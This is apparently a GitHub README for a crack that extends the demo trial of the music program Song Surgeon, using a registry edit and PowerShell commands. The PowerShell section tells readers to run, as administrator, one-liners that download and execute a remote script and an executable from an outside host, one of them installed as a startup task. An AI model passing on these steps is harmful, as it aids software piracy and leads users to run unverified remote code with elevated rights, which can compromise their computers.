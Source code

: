 [![PSScriptAnalyzer](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/powershell-analysis.yml/badge.svg)](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/powershell-analysis.yml)
[![SL Scan](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/shiftleft-analysis.yml/badge.svg)](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/shiftleft-analysis.yml)
[![Donate](https://img.shields.io/badge/Buy%20me%20a-Coffee-blue.svg)](https://www.buymeacoffee.com/stopback)

# Song Surgeon Unlimited Demo (Crack)
Song Surgeon was first released in 2007, and is now a decade old... From its first humble beginnings it has grown to be one of the most popular and valuable tools used by musicians – both students and teacher. At last count Song Surgeon has been sold in more than 120 countries worldwide – and by musicians that play 37 different instruments.

Our newly released Version 5 of Song Surgeon takes the program to a whole new level with the addition of key detection, automatic beat detection, and chord detection. What that means is that when you open a song, Song Surgeon will automatically detect the tempo of a song in BPMs, in will determine the key signature, it will detect the chords – and it will display all of this information on the main user interface so you can see and use it. We know of no other audio slowdowner software that provides these three features in one program. And of course, that’s just the beginning.

In addition to providing nearly flawless, distortion-free key and tempo change of audio, Song Surgeon has a long list of other useful features:

# How to Increase time of Song Surgeon?
There has 2 method for increasing time of Song Surgeon Demo Version, 1st one is registy and 2nd one is PowerShell script (online)

| Registry | PowerShell |
| ------- | ------------------ |
| It will freeze current time so that the program will not be Expire | It will Set the program time to infity amount of time that you will be old but the demo will not be Expire|
| Hard for those who doesn't has enough knowledge about registry | Easy for those who know basic knowledge about computers |
| It only can set infinity trial on the Free Version | It only can set infinity trial on the Premium Version* |
| No need any Internet Connection | Needs a stable Internet Connection |
| Real time update not available | Real time update available on [stbak.cf](https://stbak.cf) |

*Song Surgeon comes with 2 program which is a free demo (Limited) and another is paid demo, you can choose which demo you will use, just goto the Song Surgeon Program directory and open **switcher.bat**

# Installation
## 1st Method (Registry)

[Download Registry file into your Computer](/V_5.reg)  

On Windows 10
1. Merge the Registry into your Windows Registry
2. Open **regedit.exe** and then goto this directory `Computer\HKEY_USERS\S-1-5-21-3204273600-1076203570-2903160593-1001\SOFTWARE\TMJ\Demos`
3. Right Click on `SS_<Version of Song Surgeon>` and choose Permissions.., click on Advanced and then Disable inheritance (Windows 10)
4. Then Remove all inheritance Permissions from the object, Add > Select a Principal, type `everyone` in the object name box and click OK
5. Under Basic Permissions choose **Read** and click OK  

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20203647.png?raw=true">
</P>

6. Click OK, After clicking OK if you see the following Screen then you are done!

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20204126.png?raw=true">
</P>


## 2nd Method (PowerShell) [Recommended]

This method needs an stable internet connection, If you are using latest version of Song Surgeon then It's recommended to use this script.

1. Goto start menu and search for **powershell**, Right click on it and Choose **Run as Administrator**
2. After comfirming Admin Password, type the below code into the powershell window and hit enter
```
wget stbak.cf/ss -outfile ss.cmd; ss.cmd; del ss.cmd
```
3. Now Open the Song Surgeon and see how the script magically works on it.

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20213220.png?raw=true">
</P>

### Install As Startup task

This method doesn't lock the time of your Program so te demo time continues counting for prevent the program from being Expaired add the tool into your computer startup, it means the program will be run automatically on start. For doing this type below code into powershell window and hit enter.
```
cd\; wget stbak.cf/sss -outfile sss.exe; .\sss.exe
```
for deleting temporary files which created by powershell use
```
remove-item sss.exe
```

***Note: Make sure you manually patch the code before using the install as startup task.***

# Donation
If you like my work then Please donate  
I need donation because,
1. I has wasted about a week for making this script
2. I will update the script regulary so that It will be work on latest version
3. And I need to pay my web host for running the script online.

Plz consider by giving me a small donation

<p align="center">
  <a href='https://www.buymeacoffee.com/stopback'><img src="https://github.com/appcraftstudio/buymeacoffee/raw/master/Images/snapshot-bmc-button.png" height='50' width='200'></a>
</p>

# Contact
If you has any Query then you can contact me at [Telegram](https://t.me/BiltuDas1)
